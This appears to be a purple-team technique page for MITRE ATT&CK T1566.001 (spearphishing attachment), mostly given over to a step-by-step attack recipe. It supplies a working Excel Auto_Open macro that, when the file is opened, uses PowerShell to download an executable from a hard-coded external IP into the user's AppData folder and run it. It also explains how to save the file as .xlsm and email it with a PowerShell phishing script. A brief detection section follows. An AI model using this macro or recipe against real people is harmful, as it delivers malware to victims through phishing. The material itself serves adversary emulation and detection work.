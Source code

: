 # [Spearfishing Attachment](https://attack.mitre.org/techniques/T1566/001/)

## Exploit syntax:

* Malicious Macro in Excel Example:
    
    1. Use the [SendPhishing](/Poshc2/pslo_scripts/Purple_pslo_scripts/SendPhishingAttachment.ps1) script as a template for sending emails over powershell
    2. Create an Excel document. Use the script below and insert it into the macro list:
    
    ```vbscript
    Sub Auto_Open()

    Dim com
    Set com = CreateObject("WScript.Shell")
    com.Run "powershell.exe -c iwr -uri ""http://64.132.36.76/pointy"" -OutFile ""$env:APPDATA\login.exe"""
    com.Run "powershell.exe -c start-sleep -seconds 1;start-process ""$env:APPDATA\login.exe"""
    Set com = Nothing

    End Sub
    ```
    
    3. Save the Excel document and name it as a .xlsm extension. The file name can be anything.
    4. Once the file is saved, edit the script to reflect the proper path the Excel document is saved.
        >*Make any other changes necessary in variables (if required)*
    5. Run the powershell script from the attacker workstation.
---
## Detection Techniques

* Search for files within the Content.Outlook folder. Potentially look for files created following an email.
    * file.path: *Content.Outlook*
    * Look in the mail log at the MIME type for the file of the email.
---
## Resources: 
https://www.slipstick.com/outlook/securetemp-files-folder/